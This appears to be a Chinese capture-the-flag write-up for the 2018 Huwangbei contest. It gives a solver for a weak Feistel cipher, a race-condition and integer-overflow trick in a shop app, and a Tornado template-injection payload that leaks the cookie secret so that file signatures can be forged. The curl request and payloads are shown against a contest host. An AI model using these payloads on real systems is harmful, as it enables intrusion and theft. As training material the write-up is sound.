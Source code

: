 ```yaml
---
t oc: true
comments: true
title: 护网杯解题记录
category: writeup
date: 2018-10-14 00:17:37
---
```


![1539436751699](1539436751699.png)
# FEZ

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r
def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")
```

假设最后一轮结束后高低字节分别为l,r，可逐轮逆推出上一轮的值，从而得到明文和密文的关系。由已知的一组test明文密文对，可得到flag的明文。

| round | left                         | right                 |
| ----- | ---------------------------- | --------------------- |
| 0     | l^r^k[0]^k[1]^k[3]^k[4]^k[6] | l^k[1]^k[2]^k[4]^k[5] |
| 1     | l^k[1]^k[2]^k[4]^k[5]        | r^k[2]^k[3]^k[5]^k[6] |
| 2     | r^k[2]^k[3]^k[5]^k[6]        | l^r*k[3]^k[4]^k[6]    |
| 3     | l^r*k[3]^k[4]^k[6]           | l^k[4]^k[5]           |
| 4     | l^k[4]^k[5]                  | r^k[5]^k[6]           |
| 5     | r^k[5]^k[6]                  | r^l^k[6]              |
| 6     | r^l^k[6]                     | l                     |
| 7     | l                            | r                     |

```python
# -*- coding: utf-8 -*-
# __author__ = findneo

def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
all_xor = lambda x:reduce(xor,x)
test_plain="c8b84d08e5a8e60a49578f387fff5a90e9e7c181734bf05be4f5403c9ea24a0b8741a329991637e11fa69019cd3b01d7c95b65f5abd5"
test_cipher="5c3660c27cb9b3785a5ce06022e88bc831017e882d39475ea85d919ad9e5ac498f86c553216cab1f8f7468353d46ba8971efa9ca8c81"
flag_cipher="519ab6fc0e435da00516b844f8fe664bfe9445992f478dc650701739a11ffda5bbeb643159d7e8cd03a2104c798a1ca734b905ee6c76"

p=test_plain.decode("hex")
c=test_cipher.decode("hex")
f=flag_cipher.decode("hex")

l,r=c[0:27],c[27:54]
pl,pr=p[0:27],p[27:54]
fl,fr=f[0:27],f[27:54]
fcl=all_xor([l,r,pl,fl,fr])
fcr=all_xor([l,pr,fl])
flag=fcl+fcr
print flag
#flag{festel_weak_666_plo88112tty}�{v�N;	K�X
```

# LTSHOP

使用burp的intruder竞争买大辣条，得到超过五个大辣条。

![1539428933786](1539428933786.png)

然后买 `2**64/5+1` 个辣条王，使得需要付的大辣条多到uint装不下，向上溢出为负数，我们就买得起很多的辣条王了，实现一夜暴富。

![1539429086591](1539429086591.png)

然后flag就随便买了。

![1539429113491](1539429113491.png)

![1539437436657](1539437436657.png)

# easy_tornado

有三个提示：

```html
http://49.4.78.9:31465/file?filename=flag.txt&signature=95660d430a8ad05fc7337d12e6a08b1a
render()
md5(cookie_secret + md5(filename))
/fllllllllllag
```

报错页面存在SSTI。

```html
访问 `http://49.4.78.9:31465/error?msg={{handler.settings}}`得到配置信息。
Whoops, looks like somethings went wrong . 
{'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 'pGD*~9Y]N?>5zBvS_3768U+O}<#^k@oM$grqZQ4!yK1ucVnijmRJlFwI%hP(0exE', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}
```

得到cookie_secret，即可构造签名读取flag。

```bash
abc@xyz:~$ curl "http://49.4.78.9:31465/file?filename=/fllllllllllag&signature=8f270fa794962fa2ec4e63e6b03a830b" -s | grep flag
flag{59a95928373bfa789e06635d2d5e9459}
```

参考：https://www.cnblogs.com/bwangel23/p/4858870.html 

# 更多

- [护网杯2018线上赛 Writeup by Whitzard](https://xz.aliyun.com/t/2893)
- [2018护网杯线上赛题解by Lilac](https://xz.aliyun.com/t/2892) 
- [护网杯-easy laravel-Writeup](http://www.venenof.com/index.php/archives/565/) 